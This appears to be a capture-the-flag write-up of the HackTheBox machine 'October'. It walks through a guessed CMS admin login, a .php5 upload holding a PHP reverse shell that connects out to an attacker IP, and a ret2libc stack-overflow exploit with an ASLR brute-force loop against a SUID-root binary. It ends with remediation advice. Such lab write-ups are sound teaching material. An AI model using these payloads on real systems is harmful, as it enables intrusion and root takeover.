October
October is two boxes stitched together, and the name is a trap. The front half is
October CMS: we guess our way into the backend login (admin with a weak
password, no lockout) and abuse the Media manager, which happily takes a .php5 file the
upload filter forgot about, for a reverse shell as www-data. The back half has nothing to do
with the CMS. A full SUID sweep, cross-referenced against the package database, leaves one human-planted
binary: /usr/local/bin/ovrflw, SUID root. It is a 32-bit ELF with a classic
strcpy stack overflow, hardened with NX and full ASLR but no stack canary. We beat NX with a
ret2libc chain and beat ASLR the cheap way - 32-bit entropy is low enough to
brute-force a fixed libc guess in a loop until it lands a root shell.
01Enumeration
As usual, we start with a full port and service scan:
$ nmap -sCV -p- -T4 --min-rate 5000 10.129.96.113
PUT / PATCH / DELETE methods (a distraction here), and the title gives the game away: October CMS on the Vanilla theme.SSH gives nothing without a credential so we park it. The public site is a themed marketing page with a blog, a forum, and an account area:

admin), but nothing on the public site is exploitable, and Wappalyzer confirms October CMS on Laravel / PHP / Apache.The public source is quiet and robots.txt / login.php give nothing, so the real
work is directory enumeration.
02The backend login
Brute-forcing directories turns up a stray .php5 file that renders completely blank (we come
back to why that matters) and, more usefully, a backend auth panel at
/backend/backend/auth/signin. At the login we try the obvious pairs, and admin
with password gives a telling flash message rather than a flat rejection:

admin is valid. Only the password is wrong, which turns a login into a password-guessing problem.I lined up Hydra and Burp to fuzz the password, but while the job was spinning up I noticed I was already
logged in from an early manual guess of admin. A good reminder to always try the simple thing
first. The account's settings show the email admin@october.htb.
admin/admin
is not a documented October CMS default; this was a weak, guessable password with no account lockout. On
its own that is a High: it authorizes the full CMS backend, not the host. It only becomes
code execution because of the upload flaw in the next section. Tying severity to exactly what the
credential authorizes, and no more, is the habit worth keeping.
03Foothold - Media manager .php5 upload
Inside the backend there is a lot of surface (themes, versions, plugins) and it is easy to get lost
hunting a CMS CVE. The thing that actually matters is the Media manager: it lets us upload
our own files, and it is what was serving that blank .php5 from enumeration. So we write a PHP
reverse shell:
# shell.php reverse shell payload
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.114/4444 0>&1'"); ?>Uploading shell.php is rejected. The upload filter blocks .php, but it does not
block .php5, which Apache on this host is still configured to execute as PHP. Rename it,
upload it, and the Media manager takes it without complaint:

shell.php5 (there is even a leftover dr.php5 from a previous player, which is the blank .php5 enumeration found). The .php extension is blocked but .php5 is not, and the server still runs it as PHP.Start a listener and request the uploaded file to fire the shell:
$ nc -lvnp 4444
$ curl http://10.129.96.113/storage/app/media/shell.php5
10.129.96.113 and whoami returns www-data. Foothold..php while the server still executes .php5 (and .phtml,
.php7, and friends) is the whole bug. The fix is an allow-list of permitted types plus storing
uploads somewhere the PHP handler never runs, not a deny-list of extensions you hope you remembered all
of. Severity here is High: it is authenticated code execution, but only as the low-priv
www-data, not root.
04Enumeration as www-data
After stabilizing the shell to a proper TTY, we enumerate. harry's home is right there and
user.txt is readable by us already:

www-data we can cat /home/harry/user.txt directly (value redacted). On HackTheBox, user.txt is readable by whatever account you escalate from.user.txt as www-data was the box telling me I do not need to become
harry at all. I should have pivoted straight to "what can www-data reach that
leads to root" instead of treating harry as the next rung. Two rabbit holes came out of
ignoring that.
Rabbit hole #1 - MySQL credentials
Digging through the web root surfaces October's database config in config/database.php:

october / OctoberCMSPassword!!. They connect to a local database, and harry's stored hash even cracks to aaaaaaaa, but none of it reuses anywhere useful (admin panel, SSH, su). MySQL is not exposed externally. Dead end.Rabbit hole #2 - the tarball on harry's desktop
harry's desktop has a october-1.0.412.tar.gz while the host runs 1.0.1, which
looks like an unreleased build worth tearing apart. It is just a blank template with the standard October
filesystem. No secrets. Another detour, and another nudge that I was already standing where I needed to be.
05Finding the planted SUID binary
Back to basics. The single most productive move on this box is a SUID sweep, then asking the package database which of those binaries it disowns:
$ find / -perm -u=s -type f 2>/dev/null
$ dpkg -S <suspect> # package-owned, or planted?
dpkg -S with its owning package (uuid-runtime, iputils-tracepath, eject, openssh-client, policykit-1, ...) except one: dpkg-query: no path found matching pattern /usr/local/bin/ovrflw. A SUID-root binary under /usr/local/bin that no package claims is the planted one.That disowned binary is ovrflw, and it is SUID root:

-rwsr-xr-x root root ovrflw: the SUID bit is set and the owner is root, so anything it does runs as root. This is the privesc path.find -perm -4000 is noise until you ask which entries the package manager disowns.
dpkg -S <path> (or rpm -qf on Red Hat) turns a 20-line list into one
suspect. A SUID-root binary under /usr/local/ that no package claims is almost always the
intended path.
06Privilege escalation - ret2libc with an ASLR brute-force
From here the CMS is irrelevant. This is a straight binary-exploitation privesc against a SUID-root binary. We profile it before touching a payload.
What are we dealing with

file ovrflw: a setuid ELF 32-bit LSB executable, dynamically linked, and not stripped. 32-bit matters twice over (4-byte little-endian addresses, and low ASLR entropy later), and "not stripped" means the symbols are intact, so gdb work is easier.Protections: ASLR, NX, canary
ASLR always reads as off inside gdb, so we check the real host. A value of 2
means full randomization, and watching libc's base move between ldd runs confirms it is live:
$ cat /proc/sys/kernel/randomize_va_space
2
$ ldd /usr/local/bin/ovrflw | grep libc # base changes each run
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7556000)
libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb762f000)In pwndbg, checksec fills in the rest:

Finding the offset in gdb
We pull the binary to our box, confirm the md5 matches, and work it in gdb.
disassemble main shows the bug directly:

strcpy(buffer, argv[1]) with no bounds check, into a buffer in a 128-byte frame. The input vector is argv[1] and strcpy copies until a null byte, straight over the saved return address.A cyclic pattern finds the exact distance to the saved return address:
$ cyclic 300 # feed as argv[1], crash it
$ cyclic -l $eip # -> offset 112
$ run $(python3 -c 'print("A"*112 + "B"*4)')
EIP 0x42424242 # we own the return addressBuilding the ret2libc chain
The chain overwrites the return address with system, follows it with exit as a
clean return, then the address of the "/bin/sh" string, so the call becomes
system("/bin/sh"). The three values come from the target's libc (offsets
differ between libc builds):
$ readelf -s libc.so.6 | grep -w system # 0x00040310
$ readelf -s libc.so.6 | grep -w exit # 0x00033260
$ strings -a -t x libc.so.6 | grep /bin/sh # 0x00162bac[ 112 padding ][ &system ][ &exit ][ &"/bin/sh" ]
filler new EIP return argumentBeating ASLR by brute force
Each absolute address is libc_base + offset, packed little-endian. We cannot know the live
base, so we bet one fixed guess and loop the exploit until libc happens to load there. On 32-bit the entropy
is low enough that this lands in a reasonable number of tries:
$ python3 -c "import sys,struct; b=0xb755c000; sys.stdout.buffer.write(b'A'*112+struct.pack('<I',b+0x40310)+struct.pack('<I',b+0x33260)+struct.pack('<I',b+0x162bac))" > /tmp/p
$ wc -c /tmp/p # 124: 112 + 4 + 4 + 4, confirms it built clean
$ while true; do /usr/local/bin/ovrflw "$(cat /tmp/p)" 2>/dev/null; doneBecause ovrflw is SUID root, the /bin/sh that system spawns
inherits root. After a batch of segfaults the loop goes quiet and drops a root shell:

id shows euid=0(root) and whoami returns root. The root flag is in /root/root.txt [flag omitted]. Box owned.file saying "32-bit" is what set the whole approach.
07Root cause & remediation
| Weak, guessable backend password admin login, no lockout |
The admin account fell to a hand-guess. Enforce a strong password policy, add rate limiting and lockout on the backend login, and put the control panel behind network ACLs rather than exposing it to the internet. |
| Extension blacklist on uploads .php blocked, .php5 executed |
The Media filter denied .php but the server still ran .php5. Use an allow-list of permitted types, and store uploads in a location where the PHP handler never executes (or serve them as static downloads only). |
| Secrets reachable by www-data DB creds in the web root |
Database credentials sat in a file the web user could read. Keep secrets out of web-readable paths and scope the web user's filesystem access to only what it needs to serve. |
| Vulnerable SUID-root binary ovrflw: strcpy overflow, no canary |
A custom SUID-root binary with an unbounded strcpy is a direct root path. Don't ship SUID binaries that take untrusted input; if one must exist, drop the SUID bit, replace strcpy with a bounded copy, and compile with a stack canary, NX, and PIE so the few mitigations present aren't the only thing standing between a user and root. |
08Takeaways
October's biggest lesson is that the name of a box can be a rabbit hole all by itself. I spent a lot of
energy reading up on October CMS CVEs, and the privilege escalation had nothing to do with October CMS. In
fact, the part that involved the CMS was over the moment I blind-guessed the login and found the Media
upload: that was not a CVE, just weak credentials and a sloppy upload filter. If you got www-data
that way, you already finished the entire CMS portion of the box without exploiting October at all.
The other lesson I paid for in time: reading user.txt as www-data was the box
telling me I was already the account I needed. Instead I chased harry through a set of MySQL creds and a
decoy tarball before coming back to the basics. Sometimes a hard box is easier than it looks, as long as you
orient yourself, your surroundings, and your privileges before reaching for the far-out ideas. Enumerate what
is in front of you first. The SUID sweep plus dpkg -S was the whole privesc, and it was sitting
there the entire time.
And the binary half was a genuinely satisfying one to build by hand: a strcpy overflow, NX forcing ret2libc, no canary to stop us, and 32-bit ASLR weak enough to loop past. Fun box.